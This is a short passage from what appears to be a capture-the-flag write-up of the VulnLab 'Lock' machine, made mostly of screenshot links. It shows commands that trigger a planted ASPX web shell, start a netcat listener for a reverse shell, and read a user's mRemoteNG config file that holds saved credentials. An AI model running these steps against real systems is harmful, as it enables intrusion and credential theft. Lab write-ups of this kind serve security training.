 ![web app fuzz](../assets/img/ctf/vulnlab/lock/lock13.png)
```bash
curl http://lock.vl/shell.aspx
nc -lvnp 12345
```
![rev shell](../assets/img/ctf/vulnlab/lock/lock14.png)
![gitconfig](../assets/img/ctf/vulnlab/lock/lock15.png)

```
user: ellen:freeman
pass: fakepassword
```
```sh
type C:\Users\ellen.freeman\Documents\config.xml 
```
![mRemoteNG config](../assets/img/ctf/vulnlab/lock/lock16.png)
```sh
```